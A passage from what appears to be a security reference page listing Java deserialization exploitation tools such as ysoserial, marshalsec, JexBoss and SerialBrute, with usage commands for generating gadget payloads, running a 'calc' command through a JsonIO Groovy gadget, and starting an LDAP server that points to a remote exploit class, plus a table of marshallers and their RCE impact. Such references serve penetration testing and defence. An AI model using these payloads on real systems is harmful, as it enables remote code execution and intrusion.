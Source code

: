 ### Alternative Tooling

* [pwntester/JRE8u20_RCE_Gadget](https://github.com/pwntester/JRE8u20_RCE_Gadget) - Pure JRE 8 RCE Deserialization gadget
* [joaomatosf/JexBoss](https://github.com/joaomatosf/jexboss) - JBoss (and others Java Deserialization Vulnerabilities) verify and EXploitation Tool
* [pimps/ysoserial-modified](https://github.com/pimps/ysoserial-modified) - A fork of the original ysoserial application
* [NickstaDB/SerialBrute](https://github.com/NickstaDB/SerialBrute) - Java serialization brute force attack tool
* [NickstaDB/SerializationDumper](https://github.com/NickstaDB/SerializationDumper) - A tool to dump Java serialization streams in a more human readable form
* [bishopfox/gadgetprobe](https://labs.bishopfox.com/gadgetprobe) - Exploiting Deserialization to Brute-Force the Remote Classpath
* [k3idii/Deserek](https://github.com/k3idii/Deserek) - Python code to Serialize and Unserialize java binary serialization format.

  ```java
  java -jar ysoserial.jar URLDNS http://xx.yy > yss_base.bin
  python deserek.py yss_base.bin --format python > yss_url.py
  python yss_url.py yss_new.bin
  java -cp JavaSerializationTestSuite DeSerial yss_new.bin
  ```

* [mbechler/marshalsec](https://github.com/mbechler/marshalsec) - Java Unmarshaller Security - Turning your data into code execution

  ```java
  $ java -cp marshalsec.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]
  $ java -cp marshalsec.jar marshalsec.JsonIO Groovy "cmd" "/c" "calc"
  $ java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://localhost:8000\#exploit.JNDIExploit 1389
  // -a - generates/tests all payloads for that marshaller
  // -t - runs in test mode, unmarshalling the generated payloads after generating them.
  // -v - verbose mode, e.g. also shows the generated payload in test mode.
  // gadget_type - Identifier of a specific gadget, if left out will display the available ones for that specific marshaller.
  // arguments - Gadget specific arguments
  ```

Payload generators for the following marshallers are included:

| Marshaller                      | Gadget Impact                                |
| ------------------------------- | ---------------------------------------------- |
| BlazeDSAMF(0&#124;3&#124;X)     | JDK only escalation to Java serialization various third party libraries RCEs |
| Hessian&#124;Burlap             | various third party RCEs |
| Castor                          | dependency library RCE |
| Jackson                         | **possible JDK only RCE**, various third party RCEs |
| Java                            | yet another third party RCE |
| JsonIO                          | **JDK only RCE** |
| JYAML                           | **JDK only RCE** |
| Kryo                            | third party RCEs |
| KryoAltStrategy                 | **JDK only RCE** |
| Red5AMF(0&#124;3)               | **JDK only RCE** |
| SnakeYAML                       | **JDK only RCEs** |
| XStream                         | **JDK only RCEs** |
| YAMLBeans                       | third party RCE |
